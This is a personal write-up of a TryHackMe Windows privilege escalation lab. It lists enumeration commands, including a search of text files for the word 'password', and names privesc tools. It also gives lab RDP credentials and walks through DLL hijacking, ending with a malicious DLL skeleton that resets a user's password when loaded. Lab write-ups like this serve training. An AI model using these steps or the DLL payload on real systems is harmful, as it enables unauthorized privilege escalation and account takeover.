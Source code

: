 # Writeup for [Windows privilege escalation](https://tryhackme.com/room/winprivesc)

## Task1: Introduction

Some information listed about usergruops and how to reach more privileged users.

## Task 2: Information Gathering

* rdp to target machine with xfreerdp `xfreerdp /u:user /p:Password1 /v:10.10.49.229`
* list user `net users`
* showing system info `systeminfo | findstr /B /C:"OS Name" /C:"OS Version"`
* list installed patches `wmic qfe Caption,Description,HotFixId,InstalledOn`
* detect if Windows Defender is enabled `sc query windefend` (using powershell replace `sc` width `sc.exe`)

* (done but not useful for this task)
  * find password string in txt files `findstr /si password *.txt`
  * display network connections `netstat -ano`
  * display scheduled tasks `schtasks /query /fo LIST /v` (compared to cronjobs)
  * list drivers `driverquery`

## Task 3: Tools of the Trade

* [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
* [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
* [Windows Exploit Suggester](https://github.com/bitsadmin/wesng)
* When connected through a meterpreter shell `use multi/recon/local_exploit_suggester`


## Task 4: Vulnerable Software

* rdp to target machine with xfreerdp `xfreerdp /u:user /p:Password1 /v:10.10.194.27`
* list installed programs `wmic product get name,version,vendor`
* get some more information about runnign services `wmic service list brief | findstr "Running"`
* search for version number `wmic product get name,version,vendor | findstr "Fitbit"`
* search on kali for Fitbit exploit `searchsploit Fitbit`
* get FoxitReader Versionnubmer from binary (Powershell) `(Get-Command 'C:\Program Files (x86)\Foxit Software\Foxit Reader\FoxitReader').FileVersionInfo.FileVersion`


## Task 5: DLL Hacking

* rdp to target machine with xfreerdp `xfreerdp /u:user /p:Password1 /v:10.10.252.180`
* mingw (installable via `apt install gcc-mingw-w64-x86-64`) command to generate dll file `x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll`
* restart dllsvc service `sc stop dllsvc & sc start dllsvc`
* login as user jack [howto here](https://stackoverflow.com/a/34307483/5202550)
* find flagdll.txt and print with `type ./flagdll.txt`


### Skeleton of Malicious DLL

```ps
#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        # system("cmd.exe /k whoami > C:\\Temp\\dll.txt");
        system("cmd.exe /k net user jack Password1");
        ExitProcess(0);
    }
    return TRUE;
}
```
